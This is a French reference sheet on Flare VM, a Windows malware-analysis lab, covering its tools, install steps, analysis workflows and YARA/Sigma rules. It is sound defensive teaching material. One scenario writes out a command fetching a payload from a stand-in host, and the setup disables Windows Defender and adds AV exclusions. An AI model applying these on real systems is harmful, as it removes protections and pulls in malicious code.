

# 🔥 Flare VM — L'environnement Windows d'analyse de malwares (Mandiant)

> [!info] **En 1 phrase**
> Flare VM est une distribution Windows (FireEye/Mandiant) entièrement dédiée à l'analyse de malwares : plus de 100 outils de reverse engineering, débogage et désassemblage, installés via Chocolatey.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | Flare VM (FireEye Labs Advanced Reverse Engineering VM) |
| Description | Machine virtuelle Windows dédiée au malware analysis : 100+ outils de RE, débogage, décompilation |
| Catégorie | 🐧 Distributions & Lab |
| Sous-catégorie | Distribution défensive / reverse engineering |
| Fonction principale | Analyser des binaires Windows malveillants (statique et dynamique) |
| Type d'outil | Machine virtuelle préconfigurée + scripts PowerShell d'installation |
| Licence | Apache License 2.0 |
| Open source / propriétaire | Open source (outils sous licences propres) |
| Langage(s) | PowerShell, C#, Python, Batch |
| Développeur / organisation | Mandiant (FireEye → Google Cloud) |
| Projet officiel | mandiant/flare-vm |
| Dépôt officiel | https://github.com/mandiant/flare-vm |
| Documentation officielle | https://github.com/mandiant/flare-vm/blob/main/README.md |
| Date de création | 2014 (première version) |
| État du projet | actif |
| Dernière version connue | Dépôt rolling (VM-Packages mis à jour quotidiennement) |
| Systèmes compatibles | Windows 10/11 en VM (x64) |

> [!note] Pour vérifier / compléter
> Ressources conseillées : Windows 10/11 activé, 4+ Go de RAM, 60-80 Go de disque. Windows Defender doit être désactivé avant l'installation (même règle que Commando VM). Les packages sont distribués via le feed VM-Packages (MyGet).

---

## 🎯 Concept

Flare VM est l'équivalent Windows de **REMnux** : une **machine virtuelle Windows préconfigurée** pour l'**analyse de malwares**. Créée par les équipes de recherche FireEye (aujourd'hui Mandiant/Google Cloud), elle installe automatiquement plus de 100 outils via **Chocolatey** depuis le feed **VM-Packages**. L'analyste dispose ainsi d'un environnement complet pour le **reverse engineering de binaires PE/Windows** : débogueurs (**x64dbg**, **OllyDbg**, **WinDbg**), décompilateurs (**Ghidra**, **dnSpy**, **Java Decompiler**, **ILSpy**), analyse de documents (**oletools**, **pdf-parser**), capture réseau (**Wireshark**, **Fiddler**, **Burp Suite**), suivi système (**Process Hacker**, **procmon**, **autoruns**), et extraction d'IOC (**hashdeep**, **exiftool**).

Le workflow type suit l'analyse **statique puis dynamique** : identification du fichier, lecture des chaînes et des métadonnées, débogage pas à pas (breakpoints sur les API réseau), exécution surveillée (processus, registre, fichiers), capture des communications C2, puis extraction des IOC. La VM est conçue pour être utilisée en **réseau Host-Only**, couplée à **REMnux** qui simule les services réseau (INetSim) et capture le trafic — le malware ne doit jamais atteindre Internet réel.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Analyse statique | Examiner un binaire sans l'exécuter : format PE, imports, chaînes, décompilation |
| Analyse dynamique | Exécuter l'échantillon sous débogueur/observation pour suivre le comportement |
| x64dbg | Débogueur moderne 64/32 bits, standard de l'analyse PE |
| Ghidra | Suite de RE (NSA) : désassemblage, décompilation C, multi-architectures |
| dnSpy | Décompilateur/éditeur d'assemblies .NET (C#/VB.NET) |
| procmon | Process Monitor (Sysinternals) : suivi fichiers, registre, réseau en temps réel |
| autoruns | Autoruns (Sysinternals) : liste des points de persistance Windows |
| Breakpoints d'API | Arrêts sur les fonctions (ws2_32!send, InternetOpenA…) pour observer le réseau |
| IOC | Indicateurs extraits : hashes, domaines, IP, chemins de persistance |
| Obfuscation/packing | Compression/chiffrement du code malveillant : nécessite unpacking avant analyse |

---

## 🛠️ Installation

### Préparation (obligatoire)

```powershell
# 1. Windows 10/11 activé en VM (VMware/VirtualBox/Hyper-V)
#    4+ Go de RAM, 60-80 Go de disque
# 2. Désactiver Windows Defender (GPO) AVANT l'installation :
#    gpedit.msc -> Computer Config -> Admin Templates -> Windows Components
#    -> Microsoft Defender Antivirus -> "Turn off Microsoft Defender Antivirus" = Enabled
```

### Installation

```powershell
# 3. Activer le scripting PowerShell (en admin)
Set-ExecutionPolicy Unrestricted -Force

# 4. Télécharger le dépôt et débloquer les fichiers
git clone https://github.com/mandiant/flare-vm
cd flare-vm
Get-ChildItem .\ -Recurse | Unblock-File

# 5. Lancer l'installation (1-2 heures selon le réseau)
.\install.ps1
```

### Vérification et snapshot

```powershell
choco list --local-only
# Faire un SNAPSHOT propre de la VM avant toute analyse d'échantillon
# (VMware/VirtualBox : snapshot "base propre")
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - **Windows Defender doit être désactivé** avant l'installation (via GPO, pas seulement temporairement).
> - L'installation télécharge beaucoup d'outils depuis le feed MyGet : prévoir un réseau stable.
> - Faire un snapshot **propre** dès l'installation terminée : c'est la référence pour chaque analyse.

---

## ⚙️ Configuration

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `install.ps1` | Installation des packages | GUI interactive | VM complète | `.\install.ps1` |
| `choco install <pkg>` | Ajouter un outil | Nom du package | Outil supplémentaire | `choco install yara -y` |
| `choco upgrade all -y` | Mettre à jour les outils | Tous les packages | VM à jour | `choco upgrade all -y` |
| Réseau Host-Only | Isolation de l'analyse | Pas de NAT | Pas d'accès Internet | config hyperviseur |
| Dossier partagé | Transfert des échantillons | Lecture seule de préférence | Apport d'échantillons | config hyperviseur |
| Exclusions AV | Dossier d'analyse | `C:\samples` exclu | Évite la suppression | `Add-MpPreference -ExclusionPath C:\samples` |

---

## 🏗️ Architecture interne

Flare VM est un **Windows + Chocolatey + feed VM-Packages** : `install.ps1` déroule les packages du profil par défaut, chacun exécutant son propre script d'installation (binaires, PATH, raccourcis du menu « FLARE VM »). Le menu de démarrage regroupe les outils par catégorie : **Disassembly & Debugging** (x64dbg, OllyDbg, WinDbg), **Decompilers** (Ghidra, dnSpy, Java Decompiler, ILSpy), **Network** (Wireshark, Fiddler, Burp Suite), **System** (Process Hacker, procmon, autoruns), **Documents** (oletools, pdf-parser)…

Au runtime, l'analyste orchestre ses propres outils : x64dbg en premier plan pour le débogage, procmon en arrière-plan pour les accès fichiers/registre, Wireshark pour la capture, et autoruns pour vérifier la persistance. Les packages restent synchronisés avec le feed MyGet, testés quotidiennement par l'équipe Mandiant.

---

## ⌨️ Commandes

### Commandes principales

```powershell
# Outils GUI (lancés depuis le menu ou en CLI)
x64dbg.exe sample.exe
ghidraRun.bat
dnSpy.exe
wireshark.exe
procmon.exe /AcceptEula

# Outils CLI utiles
strings.exe -n 6 sample.exe | findstr /i "http"
hashdeep -e sample.exe
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `x64dbg.exe sample.exe` | Déboguer le binaire pas à pas | Analyse dynamique complète |
| `ghidraRun.bat` | Lancer Ghidra | Projet de RE graphique |
| `dnSpy.exe` | Ouvrir une assembly .NET | Code décompilé en C# |
| `strings.exe -n 6 sample.exe` | Extraire les chaînes | URLs, chemins, noms de DLL |
| `hashdeep -e sample.exe` | Hashes MD5/SHA256/SHA512 | Empreintes IOC |
| `procmon.exe /AcceptEula` | Suivi fichiers/registre/réseau | Journal d'événements système |
| `autorunsc.exe -a -c` | Lister les autoruns | Persistance détectée |
| `pdf-parser.exe doc.pdf` | Analyser un PDF | Objets et JavaScript |
| `olevba doc.docm` | Extraire les macros VBA | Macros malveillantes |

### Commandes avancées

```powershell
# Extraction de chaînes Unicode ET ASCII
strings.exe -n 6 -u sample.exe
# Autoruns en CSV pour analyse
autorunsc.exe -a -c > autoruns.csv
# Détection d'emballage (packer) avec Detect It Easy
diec.exe sample.exe
```

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `x64dbg` breakpoints | Arrêter l'exécution sur une API | `bp ws2_32!send` (dans x64dbg) | Intermediate |
| `-n 6` (strings) | Longueur minimale des chaînes | `strings.exe -n 6 sample.exe` | Basic |
| `-u` (strings) | Chaînes Unicode | `strings.exe -u sample.exe` | Basic |
| `-e` (hashdeep) | Sortie pour audit | `hashdeep -e sample.exe` | Basic |
| `procmon /AcceptEula` | Accepte la licence | `procmon.exe /AcceptEula` | Basic |
| `autorunsc -a -c` | Toutes les catégories en CSV | `autorunsc.exe -a -c > out.csv` | Intermediate |
| `olevba --extract` | Extraction des macros | `olevba --extract doc.docm > m.vba` | Intermediate |
| `pdf-parser -a` | Analyse complète | `pdf-parser.exe -a doc.pdf` | Intermediate |
| `choco upgrade all -y` | Mise à jour de tous les outils | `choco upgrade all -y` | Advanced |

> [!tip] Options les plus utiles au quotidien
> `strings -n 6` (tri rapide), `hashdeep -e` (IOC), breakpoints sur `ws2_32!send`/`InternetOpenA` (réseau), `procmon` filtré par processus, `autorunsc -a` (persistance).

---

## 🧪 Exemples pratiques

### Beginner

```powershell
# Identifier et hacher l'échantillon
Get-Item sample.exe | Format-List *
strings.exe -n 6 sample.exe | findstr /i "http"
hashdeep -e sample.exe
```

### Intermediate

```powershell
# Analyser un document Office
olevba --extract macro.docm > macros.vba
Get-Content macros.vba
# Analyser un PDF
pdf-parser.exe -a malware.pdf
```

### Advanced

```powershell
# Déboguer pas à pas dans x64dbg
x64dbg.exe sample.exe
# Breakpoints sur les APIs réseau, puis exécution pas à pas
# Observer les arguments des appels (send, recv, CreateFile)
```

### Expert

```powershell
# Détection de packer et unpacking
diec.exe sample.exe
# Analyse .NET avec dnSpy
dnSpy.exe sample.exe
# Recherche de la persistance
autorunsc.exe -a -c > autoruns.csv
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Préparer l'environnement isolé** — snapshot propre, réseau Host-Only, copier l'échantillon.
   ```powershell
   choco list --local-only
   Get-NetIPAddress
   ```
2. **Analyse statique** — identifier le type et extraire les métadonnées.
   ```powershell
   Get-Item sample.exe | Format-List *
   strings.exe -n 6 sample.exe | findstr /i "http"
   ```
3. **Analyse dynamique** — lancer l'échantillon dans x64dbg.
   ```powershell
   x64dbg.exe sample.exe
   # Breakpoints sur ws2_32!send et InternetOpenA, suivi de l'exécution
   ```
4. **Capturer le réseau** — Wireshark avant l'exécution.
   ```powershell
   wireshark.exe
   # Relancer l'échantillon, observer les connexions, "Export Objects"
   ```
5. **Extraire les IOC** — hashes, adresses, domaines.
   ```powershell
   hashdeep -e sample.exe
   strings.exe capture.pcap | findstr /i "http"
   ```
6. **Documenter** — noter les IOC dans la fiche d'incident.

---

## 🎬 Scénarios avancés

### Scénario 1 : Analyse d'un dropper .NET avec dnSpy

```powershell
dnSpy.exe
# Ouvrir le fichier .exe/.dll, naviguer dans les méthodes
# Identifier la chaîne d'URL, décoder (Base64/hex), puis :
Invoke-WebRequest "http://evil.example/payload.exe" -OutFile payload2.exe
Get-Item payload2.exe | Format-List *
```

### Scénario 2 : Suivi de la persistance avec Autoruns + procmon

```powershell
autorunsc.exe -a -c > autoruns.csv
# Chercher des entrées suspectes dans Run, Services, Scheduled Tasks
procmon.exe /AcceptEula
# Filtrer sur le processus du malware, examiner les accès registre :
# HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

### Scénario 3 : Analyse d'un document Office avec macros

```powershell
olevba --extract macro.docm > macro_extract.vba
# Lire le VBA pour trouver l'URL du dropper et l'action du payload
pdf-parser.exe -a pièce_jointe.pdf
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Tri initial | Get-Item, strings, hashdeep, exiftool, Detect It Easy |
| Analyse statique | Ghidra, radare2, Cutter, IDA Free, PE-bear |
| Débogage dynamique | x64dbg, OllyDbg, WinDbg |
| Analyse .NET | dnSpy, ILSpy, Java Decompiler |
| Documents malveillants | oletools (olevba, oleid), pdf-parser |
| Réseau | Wireshark, Fiddler, Burp Suite |
| Suivi système | procmon, Process Hacker, autoruns, TCPView |
| Extraction d'IOC | hashdeep, strings, URL extraction |
| Analyse mémoire | Volatility (intégré en complément de REMnux/SIFT) |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Execution | User Execution : Malicious File | T1204.002 | Les échantillons analysés sont ouverts/exécutés dans la sandbox | Logs d'ouverture, sandboxing | Filtrage des pièces jointes |
| Defense Evasion | Obfuscated Files or Information | T1027 | Packing/obfuscation détectés par DIE, Ghidra, strings | Détection YARA/AV | Analyse statique, unpacking |
| Defense Evasion | Process Injection | T1055 | Injection observée via procmon/x64dbg | EDR, surveillance des injections | Credential Guard, hardening |
| Persistence | Boot or Logon Autostart Execution : Registry Run Keys | T1547.001 | Persistance dans les RunKeys détectée par autoruns | Surveiller les modifications de registre | GPO de contrôle des RunKeys |
| Command & Control | Application Layer Protocol : Web Protocols | T1071.001 | Les C2 HTTP(S) sont révélés par Wireshark/Fiddler | Détection des flux C2, logs proxy | Egress filtering |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Flare VM est défensive : le tableau décrit les techniques **détectées/analysées** sur les échantillons, grâce aux outils installés.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Connexions sortantes non planifiées (TCPView) | Le malware tente de joindre un C2 (si le réseau n'est pas isolé) |
| Injection de processus / accès lsass (procmon) | Activité anormale détectée lors du débogage |
| Écriture dans `HKLM\...\Run` | Persistance révélée par autoruns |
| Macro VBA / JavaScript dans documents | olevba/pdf-parser confirment le caractère malveillant |
| Binaire packé | DIE indique l'emballage (UPX, Themida…) |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# YARA — règle générique de détection de macros (exemple)
rule Suspicious_Office_Macro_Network {
    meta:
        description = "Document Office avec macro et URL (à valider)"
        author = "Analyste Flare VM"
    strings:
        $url = "http" ascii wide
        $vba = "VBAProject" ascii wide
    condition:
        uint16(0) == 0xD0CF and $vba and $url
}
```

```yaml
# Sigma — Windows : persistance dans les Run Keys
title: Persistence via Registry Run Keys
id: c4f3a2b1-9d8e-4f7c-8b6a-5e4d3c2b1a09
status: test
logsource:
    category: registry_set
    product: windows
detection:
    selection:
        TargetObject|contains:
            - 'CurrentVersion\Run'
            - 'CurrentVersion\RunOnce'
    condition: selection
falsepositives:
    - Legitimate software installers
level: medium
```

---

## 🤖 Automatisation

```powershell
# PowerShell — batch d'analyse statique d'un dossier
Get-ChildItem C:\samples\*.exe | ForEach-Object {
    "=== $($_.Name) ==="
    strings.exe -n 8 $_.FullName | Select-String -Pattern "http"
    hashdeep -e $_.FullName
}
```

```python
# Python — extraction d'URLs depuis un fichier
import re
with open(r"C:\samples\sample.exe", "rb") as fh:
    data = fh.read()
urls = set(re.findall(rb"(?:https?://)[A-Za-z0-9\.\-/:_%]+", data))
for u in sorted(urls):
    print(u.decode(errors="ignore"))
```

---

## 📤 Output et parsing

Les outils de Flare VM produisent des sorties texte, CSV et fichiers binaires à analyser.

```powershell
# Autoruns en CSV pour tri dans Excel/pandas
autorunsc.exe -a -c > autoruns.csv
Import-Csv autoruns.csv | Where-Object { $_.LaunchString -like "*http*" }
# Hashes pour IOC
hashdeep -e sample.exe | Out-File iocs.txt
```

```python
# Python — parsing du CSV autoruns
import csv
with open("autoruns.csv") as fh:
    for row in csv.DictReader(fh):
        if "http" in (row.get("LaunchString") or ""):
            print(row["Entry"], row["LaunchString"])
```

> [!note] À vérifier
> Le format CSV d'Autoruns peut varier selon la version de Sysinternals : adapter les noms de colonnes.

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - REMnux]] — simulation réseau et capture côté Linux (complément Host-Only)
- [[Outil - Ghidra]] — décompilation multi-architectures
- [[Outil - x64dbg]] — débogage dynamique
- [[Outil - dnSpy]] — reverse .NET
- [[Outil - radare2]] / [[Outil - Cutter]] — désassemblage
- [[Outil - oletools]] — analyse des documents Office
- [[Outil - Wireshark]] — capture réseau
- [[Outil - Sysinternals Suite]] — procmon, autoruns, TCPView
- [[Outil - Process Hacker]] — gestion des processus
- [[Outil - YARA]] — règles de détection
- [[Outil - CyberChef]] — décodage des chaînes (Base64, hex)
- [[Outil - FakeNet-NG]] — simulation réseau alternative

```text
Échantillon → strings/hashdeep → Ghidra/dnSpy → x64dbg → Wireshark → IOC → rapport
```

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - REMnux]] | Outils Linux, simulation réseau | Pas de débogage Windows natif | RE ELF/PDF + réseau |
| [[Outil - SIFT Workstation]] | Forensics disque/mémoire | Moins orienté malware | Investigations DFIR |
| Cuckoo / CAPE | Sandbox automatisée | Lourd, nécessite un agent | Analyse dynamique de masse |
| Installation manuelle | Contrôle total | Longue, maintenable difficilement | Utilisateurs avancés |

> **Quand utiliser Flare VM plutôt que REMnux ?** Pour déboguer pas à pas un binaire **PE Windows** (x64dbg, OllyDbg) et analyser les assemblies .NET (dnSpy), Flare VM est indispensable. REMnux prend le relais pour les échantillons ELF, les documents, et surtout pour **simuler le réseau** (INetSim) pendant que Flare exécute le malware.

---

## ⚡ Performance

- **Ressources** : 4 Go de RAM minimum (8 Go conseillés avec Ghidra + x64dbg), 60-80 Go de disque.
- **Ghidra** est le plus gourmand (JVM + indexation) : fermer les projets inutilisés.
- **procmon sans filtre** génère des milliers d'événements : filtrer par processus pour rester performant.
- **Wireshark** : les captures longues grossissent vite ; limiter avec des filtres de capture.
- **Installation** : 1-2 heures (feed MyGet), dépendante de la bande passante.
- **Mise à jour** : `choco upgrade all` modérée ; les packages sont testés quotidiennement par Mandiant.

> [!note] À vérifier
> Chiffres issus de la documentation officielle et des retours de la communauté ; adaptez selon le matériel.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : Defender supprime l'échantillon pendant l'analyse

- **Cause** : l'AV de la VM est réactivé (ou n'a pas été désactivé durablement).
- **Solution** : appliquer la GPO « Turn off Microsoft Defender Antivirus » et ajouter une exclusion sur le dossier d'analyse.
- **Vérification** : `Get-MpComputerStatus` montre l'AV désactivé.

#### Problème : x64dbg ne charge pas le binaire

- **Cause** : binaire corrompu ou architecture incompatible (x86 vs x64dbg).
- **Solution** : utiliser la bonne version (x64dbg/x32dbg) ; vérifier le format avec `file`/DIE.
- **Vérification** : l'onglet « Modules » s'affiche correctement.

#### Problème : procmon capture tout et devient illisible

- **Cause** : aucun filtre appliqué.
- **Solution** : filtrer sur `Process Name = <malware.exe>` via le menu Filter.
- **Vérification** : le nombre d'événements chute nettement.

#### Problème : l'échantillon atteint Internet

- **Cause** : réseau VM en NAT au lieu de Host-Only.
- **Solution** : passer en Host-Only et couper le NAT ; relancer l'analyse depuis le snapshot propre.
- **Vérification** : aucune connectivité sortante (ping/curl échouent).

---

## 🔐 Sécurité de l'outil

- **Isolation obligatoire** : réseau Host-Only, jamais d'Internet réel (exfiltration, C2, propagation).
- **Snapshots** : snapshot propre avant chaque analyse ; rollback après exécution de l'échantillon.
- **Défense désactivée** : la VM est volontairement sans Defender — d'où l'isolation stricte.
- **Échantillons** : toujours copier depuis un support partagé en lecture seule, jamais via le réseau du lab de production.
- **Pas de télémétrie ajoutée** : les outils sont locaux ; couper l'adaptateur NAT pour limiter le trafic Windows.
- **Usage légal** : ne pas distribuer les échantillons hors du cadre de l'analyse autorisée.

---

## ⚠️ Limitations

- **Windows requis** : licence Windows, ressources, lourdeur du système.
- **x64 uniquement** : pas de support ARM.
- **Pas un environnement d'attaque** : orienté analyse, pas pentest AD (contrairement à Commando VM).
- **Analyse dynamique Windows only** : les échantillons ELF nécessitent REMnux ou une VM Linux.
- **Dépendance au feed MyGet** : les packages peuvent évoluer ou disparaître.
- **Faux positifs** : les détections (YARA, AV) doivent être validées par l'analyse comportementale.

---

## 📋 Cheatsheet

```powershell
# Identification et hashes
Get-Item sample.exe | Format-List *
hashdeep -e sample.exe

# Chaînes
strings.exe -n 6 sample.exe | findstr /i "http"
strings.exe -n 6 -u sample.exe

# Documents
olevba --extract macro.docm > macros.vba
pdf-parser.exe -a malware.pdf

# Débogage
x64dbg.exe sample.exe
dnSpy.exe sample.exe

# Système
procmon.exe /AcceptEula
autorunsc.exe -a -c > autoruns.csv

# Réseau
wireshark.exe
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | VM Windows d'analyse de malwares : 100+ outils de RE, débogage et décompilation |
| **Quand l'utiliser ?** | Analyse d'un échantillon Windows (PE/.NET/Office/PDF) dans un SOC ou un lab |
| **Commande principale** | `x64dbg.exe sample.exe` + `strings.exe` + `hashdeep -e` |
| **Alternative principale** | [[Outil - REMnux]] · [[Outil - SIFT Workstation]] |
| **Concepts importants** | Analyse statique/dynamique, x64dbg, Ghidra, dnSpy, procmon, autoruns, IOC |
| **Liens associés** | [[Outil - Ghidra]] · [[Outil - dnSpy]] · [[Outil - Wireshark]] · [[Outil - REMnux]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Connexions sortantes non planifiées (TCPView) | Isoler la VM, journaliser le trafic, chercher les IOC dans le SIEM |
| Injection de processus / accès lsass (procmon) | EDR, Credential Guard, surveiller les événements 4688/4663 |
| Écriture dans `HKLM\...\Run` | Contrôler les autoruns, alertes sur les modifications du registre |
| Macro VBA / JS dans les documents | Filtrage des pièces jointes, blocage des macros par défaut |
| Détections YARA/AV sur le binaire | Mettre à jour les règles et partager les IOC |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Fais un **snapshot propre** de Flare VM avant chaque analyse : un malware peut rendre le système instable.
> - Utilise **procmon** avec des filtres (par processus) : sans filtre, on obtient des milliers d'événements inutiles.
> - Couple Flare VM avec **REMnux** en Host-Only : Flare pour l'analyse Windows, REMnux pour la simulation réseau et la capture.
> - Place des **breakpoints sur les API réseau** (ws2_32!send, InternetOpenA) pour révéler les C2 rapidement.

> [!warning] ⚠️ **Pièges**
> - **Ne jamais analyser un échantillon avec un accès Internet direct** : utilise un réseau Host-Only et un faux serveur (INetSim sur REMnux).
> - Ne pas exécuter d'échantillon **sans snapshot** : le malware peut supprimer des fichiers, modifier le boot ou s'enfoncer dans le système.
> - Les AV/EDR de la VM peuvent supprimer l'échantillon : configure des exclusions **avant** de commencer.
> - Ne confonds pas x64dbg et x32dbg : utilise la bonne architecture pour le binaire analysé.

---

## 📚 References

### Official

- Dépôt officiel : https://github.com/mandiant/flare-vm
- Blog Mandiant (lancement) : https://www.mandiant.com/resources/blog/flare-vm-new
- VM-Packages : https://github.com/mandiant/VM-Packages
- Feed MyGet : https://www.myget.org/feed/Packages/vm-packages

### Security references

- MITRE ATT&CK T1204.002 — Malicious File : https://attack.mitre.org/techniques/T1204/002/
- MITRE ATT&CK T1547.001 — Registry Run Keys : https://attack.mitre.org/techniques/T1547/001/
- MITRE ATT&CK T1055 — Process Injection : https://attack.mitre.org/techniques/T1055/

### Community

- x64dbg (documentation) : https://x64dbg.com/
- Practical Malware Analysis (livre) : https://practicalmalwareanalysis.com/
- Malware Traffic Analysis : https://www.malware-traffic-analysis.net/

---

> [!info] 📚 **Sources**
> - https://github.com/mandiant/flare-vm
> - https://www.mandiant.com/resources/blog/flare-vm-new

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Outil - REMnux|🧫 REMnux]] · [[Outil - Ghidra|🔧 Ghidra]] · [[Outil - x64dbg|🐞 x64dbg]] · [[Outil - dnSpy|🔍 dnSpy]] · [[Outil - Wireshark|📡 Wireshark]] · [[Outil - oletools|📄 oletools]] · [[Outil - Sysinternals Suite|🛠️ Sysinternals]]
